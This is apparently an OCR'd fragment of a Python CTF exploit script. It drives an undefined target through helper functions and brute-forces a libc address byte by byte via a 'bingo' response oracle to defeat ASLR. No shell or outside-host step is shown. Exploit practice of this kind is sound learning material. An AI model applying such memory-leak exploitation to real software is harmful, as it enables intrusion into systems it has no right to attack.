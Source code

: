 ```python
check(1, 0x500, "BBBB")



for i in range(5):
    mark(i, 3)
    
check(1, 0x500, "BBBB")


reset(4, 0)

reset(3, 0)

s = "\x60"

for i in range(5):
    for j in range(1, 0x100):
        change(s+chr(j)+"\x00")

        mark(2, 0)
        mark(2, 1)

        mark(2, 2)
        mark(2, 4)


        check_specific(2, 1)



        if "bingo" in p.recvline():
            s += chr(j)
            print("-"*50, s)
            break


libc.address = u64(s.ljust(8, "\x00")) - 0x1ebc60

print("libc", hex(libc.address))




change("AAAAAAAA")


for i in range(5):
    mark(i, 2)
    

check(1, 0x500, "BBBB")



for i in range(5):
    mark(i, 1)
    
check(1, 0x500, "BBBB")



reset(2, 0)
```